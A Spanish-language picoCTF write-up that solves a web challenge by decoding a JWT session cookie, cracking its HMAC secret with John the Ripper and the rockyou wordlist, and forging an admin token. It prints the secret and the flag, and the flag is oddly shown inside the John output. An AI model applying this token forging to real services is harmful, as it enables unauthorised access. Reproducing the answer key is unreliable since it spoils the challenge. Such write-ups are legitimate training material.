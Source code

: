 ## Descripción

> [!DANGER]
>Internal server errors can be intentionally returned by this challenge. If you experience one, try clearing your cookies.

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210
## Pistas
1. What is that cookie?
2. Have you heard of JWT?
## Solución 1
1. Probamos loguearnos con la palabra admin
2. Probamos con otro nombre y revisamos las cookies
	`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoibmRhaGFpIn0.xiN4wjjuHokvxsEosoFWBrDhJZRhzveSGJKZmWS5qUc`
 3. Decodificamos la cookie con [jwt.io]() 
 ```
 {
  "user": "ndahai"
}
```
 4. Cambiamos el user por admin y cambiamos la cookie
 5. Vemos que se necesita una firma, por lo que usamos **John** para crackearla, guardando la cookie en un archivo y usando el wordlist ubicado en `/usr/share/wordlists/rockyou.txt.gz`
 ```bash
 john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 ASIMD 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:02 DONE (2025-03-29 23:55) 0.4901g/s 3626Kp/s 3626Kc/s 3626KC/s iloverob4live345..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed. picoCTF{jawt_was_just_what_you_thought_44c752f5}

```
6. Vemos que la contrasena es `ilovepico`
7. La ingresamos en jwt.io, junto con el user "admin".
8. `picoCTF{jawt_was_just_what_you_thought_44c752f5}`
``
## Notas adicionales

## Referencias